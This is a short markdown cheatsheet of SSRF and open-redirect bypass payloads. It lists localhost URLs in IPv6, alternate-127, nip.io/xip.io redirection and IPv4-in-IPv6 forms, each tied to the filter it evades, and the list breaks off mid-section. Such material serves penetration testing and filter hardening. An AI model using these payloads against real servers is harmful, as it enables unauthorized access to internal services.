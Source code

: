 ```yaml
---
title: SSRF Cheatsheet
tags: ssrf open-redirect cheatsheet 
---
```



# SSRF


Hello there,below is a list of most common SSRF payloads and open-redirect bypasses 

### SSRF & Open Redirect Bypass

- With [::], abuses IPV6

[http://[::]/](.)

[http://[::]:80/](.)

[http://[::]:25/](.) SMTP

[http://[::]:22/](.) SSH

[http://[::]:3128/](.) Squid

[http://0000::1/](.)

[http://0000::1:80/](.)

[http://0000::1:25/](.) SMTP

[http://0000::1:22/](.) SSH

[http://0000::1:3128/](.)Squid

- With domain redirection, useful when all IP addresses are blacklisted

[http://localtest.me](.)

[http://test.app.127.0.0.1.nip.io](.)

[http://test-app-127-0-0-1.nip.io](.)

[httP://test.app.127.0.0.1.xip.io](.)

- With CIDR, useful when just 127.0.0.1 is whitelisted

[http://127.127.127.127/](.)

[http://127.0.1.3/](.)

[https:/127.0.0.0/](.)

- With IPv6/IPv4 address embedding, useful when both IPv4 and IPv6 are blacklisted (but blacklisted badly)

[http://[0:0:0:0:0:ffff:127.0.0.1]/](.)

- With decimal IP location, really useful if dots are blacklisted
